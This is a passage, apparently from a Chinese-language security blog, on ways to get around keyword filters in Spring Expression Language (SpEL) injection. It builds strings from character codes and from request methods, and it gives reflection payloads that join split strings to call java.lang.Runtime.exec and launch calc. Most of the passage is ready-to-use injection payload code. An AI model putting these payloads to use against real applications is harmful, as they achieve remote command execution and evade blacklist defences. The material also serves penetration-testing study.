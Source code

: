 `T(String).getName`返回的是`java.lang.String`，然后用replace替换获取想要的字符串，这种比较麻烦。

还有一种就是直接使用类似`chr`函数

```php
T(Character).toString(104)+T(Character).toString(51)+T(Character).toString(122)+T(Character).toString(104)+T(Character).toString(49)
```

## 外部对象request

假如上下文中有request对象的话就也有几种方法

```php
//request.getMethod()为POST
#request.getMethod().substring(0,1).replace(80,104)%2b#request.getMethod().substring(0,1).replace(80,51)%2b#request.getMethod().substring(0,1).replace(80,122)%2b#request.getMethod().substring(0,1).replace(80,104)%2b#request.getMethod().substring(0,1).replace(80,49)
//request.getMethod()为GET
#request.getMethod().substring(0,1).replace(71,104)%2b#request.getMethod().substring(0,1).replace(71,51)%2b#request.getMethod().substring(0,1).replace(71,122)%2b#request.getMethod().substring(0,1).replace(71,104)%2b#request.getMethod().substring(0,1).replace(71,49)
//Cookie
#request.getRequestedSessionId()
```

## 反射+字符串拼贴

比如Runtime的绕过  
`T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),newString[]{"cmd","/C","calc"})`  
如果ban了getClass还可以getSuperClass  
`''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("ex"+"ec",T(String[])).invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("getRu"+"ntime").invoke(null),'calc')`  
还有各种比如Base64之类的。自己试试就知道了
